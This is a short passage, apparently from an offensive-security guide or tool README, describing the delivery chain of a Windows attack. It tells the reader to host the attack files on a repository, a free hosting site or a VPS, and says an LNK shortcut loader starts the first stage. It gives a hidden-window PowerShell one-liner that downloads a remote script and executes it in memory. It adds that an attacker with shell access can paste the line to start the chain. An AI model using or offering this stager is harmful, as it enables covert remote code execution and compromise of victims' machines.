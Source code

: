 Host this entire path in the attacker's repository. Or you can host them on a free file-hosting site like Heroku or Netlify or your own VPS. 

The LNK loader simply executes the first stage. 
`powershell.exe -WindowStyle Hidden -Command IEX(iwr -UseBasicParsing http://192.168.1.26/script.ps1)`

If you already have shell access, you can simply copy and paste the one-liner to start the chain.
